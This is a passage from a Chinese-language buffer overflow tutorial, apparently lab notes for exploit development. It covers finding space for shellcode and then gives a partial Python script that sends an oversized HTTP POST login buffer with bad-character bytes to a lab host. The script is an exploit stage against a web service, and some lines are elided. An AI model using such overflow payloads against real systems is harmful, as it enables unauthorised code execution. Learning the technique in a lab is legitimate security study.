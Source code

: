 一旦发送了新的更长的缓冲区，调试器中就会观察到类似的崩溃。 但是，这次，我们发现ESP指向另一个地址值0x030E745C，如图所示。

![image-20200414110649195](assets/5.BOF.assets/image-20200414110649195.png)

当前的栈状态

![image-20200414110731411](assets/5.BOF.assets/image-20200414110731411.png)

这个小技巧为我们提供了更多的工作空间。 在进一步检查后，我们注意到我们的shellcode现在总共有704个字节（0x030E771C-0x030E745C = 704）的可用空间。

### 确定 Bad Characters 

将buffer部分替换为badchars，因为\x00是固定的badchar，插入的字符为\x01-\xff

```python
#!/usr/bin/python
import socket 

badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" ) 

try:
	print "\nSending evil buffer..." 
    
	filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    #buffer = "D" * (1500 - len(filler) - len(eip) - len(offset)) #1500-780-4-4=712
 	inputBuffer = filler + eip + offset + badchars #+ buffer
    
    content = "username=" + inputBuffer + "&password=A"
	buffer = "POST /login HTTP/1.1\r\n"
	........
	........
	buffer += "\r\n"
	buffer += content 
#发送包 
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.11.0.22", 80))
```